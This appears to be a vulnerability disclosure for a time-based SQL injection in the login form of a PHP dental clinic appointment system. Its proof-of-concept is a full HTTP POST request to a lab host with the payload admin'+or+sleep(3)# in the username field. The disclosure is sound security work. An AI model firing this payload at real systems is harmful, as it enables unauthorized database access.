


# Dental_Clinic_Appointment_Reservation_System_Time-Based_SQL_Injection

## Description

```
The login.php file contains login_modal.php. In the login_modal.php file, parameters are appended to the SQL statement.

```

## Affects Plugins

```
Dental Clinic Appointment Reservation System
https://www.sourcecodester.com/php/6848/appointment-reservation-system.html

```

## Author

```
yangfan2@webray.com.cn inc  

```

## Proof of Concept

The login.php file contains login_modal.php. In the login_modal.php file, parameters are appended to the SQL statement.

|  |
| ------------------------------------------------------------ |


```
POST /apr/login.php HTTP/1.1
Host: 10.211.55.3
Content-Length: 54
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.211.55.3
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.211.55.3/apr/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=p6u5ht7mjbc2mhegddrpada436
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="92", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Connection: keep-alive
​
username=admin'+or+sleep(3)#&password=123456&submit1=1

```

|  |
| ------------------------------------------------------------ |

